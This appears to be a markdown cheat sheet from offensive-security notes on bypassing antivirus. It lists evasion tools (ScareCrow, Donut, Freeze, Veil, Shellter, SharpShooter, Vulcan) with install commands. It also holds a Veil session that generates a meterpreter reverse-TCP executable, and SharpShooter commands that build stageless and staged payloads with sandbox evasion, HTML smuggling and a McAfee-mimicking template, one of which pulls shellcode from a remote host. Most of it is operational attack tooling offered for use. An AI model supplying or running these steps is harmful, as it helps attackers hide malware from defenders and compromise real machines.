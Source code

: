 # Bypassing AV

# Recent Tools to Bypass AV:

## Scarecrow

Source: https://github.com/optiv/ScareCrow

In Kali: 

```
sudo apt install golang

go get github.com/fatih/color
go get github.com/yeka/zip
go get github.com/josephspurrier/goversioninfo

go build ScareCrow.go

./ScareCrow
```

## Donut: 

Source: https://github.com/TheWover/donut

## Freeze: 
Source: https://github.com/Tylous/Freeze

Installation

```
sudo apt install golang
go build Freeze.go
```

# Old tools to bypass AV

## Veil Framework:

Install on Kali: 
- `apt install veil`
- `/usr/share/veil/config/setup.sh --force --silent`

Reference: https://github.com/Veil-Framework/Veil

Generate exe example:

```
$ veil
> use 1 (Evasion)
> use 11 (cs/meterpreter/rev_tcp)
> set LPORT 4442
> set LHOST 10.52.252.94
> set USE_ARYA Y
> generate
$ ls /var/lib/veil/output/compiled/
```

## Shellter

Source: https://www.shellterproject.com/download/

- `apt install shellter`

## Sharpshooter

Javascript Payload Stageless: 

- `SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3`

Stageless HTA Payload: 

- `SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee`

Staged VBS:

- `SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4`

Reference: https://github.com/mdsecactivebreach/SharpShooter



## Vulcan

Source: https://github.com/praetorian-code/vulcan


# Resources: 

- https://book.hacktricks.xyz/windows-hardening/av-bypass
- https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates

